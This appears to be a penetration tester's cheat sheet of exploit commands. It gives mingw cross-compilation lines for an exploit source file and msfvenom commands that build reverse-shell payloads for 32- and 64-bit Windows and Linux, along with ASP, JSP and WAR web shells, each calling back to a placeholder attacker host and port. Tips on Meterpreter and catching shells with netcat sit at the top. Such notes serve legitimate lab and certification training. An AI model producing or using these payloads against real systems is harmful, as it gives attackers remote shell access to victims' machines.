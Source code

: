 # Exploits

- 1 Meterpreter payload only against 1 system
- Use rlwrap for netcat when catching rev shells

## Cross-Compiling
```
sudo apt install mingw-w64
i686-w64-mingw32-gcc exploit.c -o exploit.exe
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

## Windows 32 Bit
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

## Windows 64 bit
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Linux 32 Bit
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

## Linux 64 Bit
```
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## ASP
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

## JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

## WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```
